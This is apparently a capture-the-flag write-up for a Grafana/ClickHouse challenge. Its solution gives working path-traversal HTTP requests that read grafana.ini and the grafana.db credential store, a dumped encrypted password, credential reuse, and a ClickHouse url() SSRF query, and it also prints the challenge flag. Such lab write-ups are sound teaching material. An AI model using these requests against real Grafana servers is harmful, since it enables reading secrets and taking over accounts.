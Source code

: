 # Grapache_Revenge

### Challenge Details

harder version of Grapache, with additional data source(clickhouse), which has another web server running and listening at localhost. Player need  to decrypt the data source in `/var/lib/grafana/grafana.db`, reuse that password to login into grafana, and abuse the [built-in SSRF feature](https://clickhouse.com/docs/en/sql-reference/table-functions/url/) of clickhouse to get the flag

### Key Concepts

SSRF, Path traversal, credential reuse

### Solution

1. read the grafana.ini to get the data source signing key.

   ```
   GET /?unix:|http:///public/plugins/welcome/../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
   ```

   ```
   # used for signing
   secret_key = SW2YcwTIb9zpOOhoPsMoiID9fd
   ```

2. read the grafana database.

   ```
   GET /?unix:|http:///public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
   ```

   and get the data source

   ```
   $ sqlite3 grafana.db
   SQLite version 3.31.1 2020-01-27 19:55:54
   Enter ".help" for usage hints.
   sqlite> select * from data_source;
   1|1|2|grafana-clickhouse-datasource|ClickHouse|proxy|||||0|||1|{"defaultDatabase":"grey_database","port":9000,"server":"clickhouse","username":"grey_user"}|2022-05-12 08:04:32|2022-05-12 08:04:53|0|{"password":"MGtTUnVYdWPh7OhysNLOY4MgwfIKtK9P4EDX7pk9cBmWZ/5vJ2ja2MoEi7CMtA=="}|0|3eXgt3lnk
   ```

3. use [AESDecrypt.go](./AESDecrypt.go) to decrypt the data source of clickhouse.

4. reuse the credentials of clickhouse to login to grafana

5. query the data from clickhouse with the query `SELECT column1 FROM url('http://localhost',LineAsString,'column1 String')` and get the flag

### Learning Objectives

same as Key Concepts

### Flag

```
grey{wh47_4_l0n6_w4y_1_h4v3_60n3_7hr0u6h_0557d6c45546ef3a}
```
